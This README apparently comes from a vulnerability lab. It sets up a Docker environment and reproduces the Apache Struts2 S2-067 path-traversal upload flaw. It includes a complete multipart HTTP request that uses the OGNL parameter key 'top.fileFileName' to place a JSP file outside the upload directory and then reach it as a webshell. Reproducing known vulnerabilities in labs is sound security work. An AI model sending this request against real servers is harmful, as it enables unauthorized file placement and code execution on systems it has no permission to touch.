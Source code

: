 # Struts2 S2-067 Path Traversal Vulnerability (CVE-2023-50165)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

S2-067 is a variant of the S2-066 vulnerability, which emerged due to an incomplete fix. While S2-066 was caused by case-sensitive comparison issues leading to filename override and directory traversal, S2-067 exploits a different mechanism to achieve the same result.

In Struts2, all parameter keys are evaluated as OGNL expressions during transmission. This feature has historically led to multiple remote code execution vulnerabilities through OGNL expression injection. Although Struts2 has implemented strict parameter key validation to prevent RCE vulnerabilities, the expression evaluation still occurs. S2-067 leverages this expression evaluation mechanism to override the upload filename again, ultimately leading to directory traversal issues.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## Environment Setup

Execute the following command to start a web server written in Struts2 2.5.33:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

Before reproducing the S2-067 vulnerability, you need to read the [S2-066](../s2-066/README.md) first and understand the principle of the vulnerability.

On this server, you cannot use the same payload as in S2-066, because the case sensitivity issue has been fixed.

![](1.png)

Use OGNL expression `top.fileFileName` in the parameter key of filename, then the file will be uploaded to outside the `upload/` directory again:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- Instead of using case sensitivity like in S2-066, we use OGNL expression evaluation in the parameter key
- The parameter key `top.fileFileName` is evaluated as an OGNL expression
- This evaluation allows us to override the filename with the path traversal payload `../shell.jsp`

![Successful Upload](2.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](3.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
